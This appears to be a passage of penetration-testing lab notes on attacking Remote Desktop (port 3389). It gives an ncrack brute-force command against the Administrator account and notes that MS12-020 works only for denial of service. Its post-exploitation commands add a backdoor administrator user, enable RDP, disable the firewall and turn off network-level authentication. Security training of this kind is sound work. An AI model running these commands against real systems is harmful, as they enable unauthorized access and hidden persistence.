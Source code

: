 ## Port 3339 - Oracle web interface

## Port 3389 - Remote Desktop Protocol

This is a proprietary protocol developed by windows to allow remote desktop.

Log in like this

```
rdesktop -u guest -p guest 10.11.1.5 -g 94%
```

Brute force like this

```
ncrack -vv --user Administrator -P /root/passwords.txt rdp://192.168.1.101
```

### Ms12-020

This is categorized by microsoft as a RCE vulnerability. But there is no POC for it online. You can only DOS a machine using this exploit.

### Useful commands

**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```
